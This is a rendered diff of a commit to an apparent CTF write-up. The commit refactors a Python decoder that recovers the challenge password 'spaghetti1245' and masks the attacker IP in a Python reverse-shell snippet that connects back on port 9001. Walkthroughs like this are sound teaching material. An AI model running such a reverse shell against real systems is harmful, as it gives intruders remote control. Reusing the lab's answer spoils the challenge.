

Before and after one commit to PardhuSreeRushiVarma20060119/CybersecurityAndDevelopment, a Markdown page: LifeAroundWriteUps/pythonplayground.md, the part around the change. Drawn GitHub-style; folded sections open; blank space fills up the shorter version.

````diff
--- a/LifeAroundWriteUps/pythonplayground.md
+++ b/LifeAroundWriteUps/pythonplayground.md
@@ -138,16 +138,31 @@ if (hash === "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu")
 
 ```python
 def text_to_unicode(string):
-    return [str(ord(c)-97) for c in string]
+    uni=[]
+    for char in string:
+         a=ord(char)
+         a -= 97
+         uni.append(str(a))
+    return uni
 
 def unicode_to_text(string):
-    out = ''
-    for i in range(0, len(string), 2):
-        out += chr(int(string[i])*26 + int(string[i+1]))
+    out=""
+    for char in range(0,len(string),2):
+         a = int(string[char])
+         b = int(string[char +1])
+         temp = a * 26
+         temp += b
+         out += chr(temp)
     return out
 
-hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
-print(unicode_to_text(text_to_unicode(unicode_to_text(text_to_unicode(hash)))))
+if __name__ == "__main__":
+     hash="dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
+     stri1 = text_to_unicode(hash)
+     stri2 = unicode_to_text(stri1)
+     stri3 = text_to_unicode(stri2)
+     password = unicode_to_text(stri3)
+     print(password)
+
 ```
 
 ✅ Password: `spaghetti1245`
@@ -163,7 +178,7 @@ print(unicode_to_text(text_to_unicode(unicode_to_text(text_to_unicode(hash)))))
 import socket, os, subprocess
 
 s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
-s.connect(("10.8.106.222",9001))
+s.connect(("10.xx.xxx.xxx",9001))
 os.dup2(s.fileno(),0)
 os.dup2(s.fileno(),1)
 os.dup2(s.fileno(),2)
````
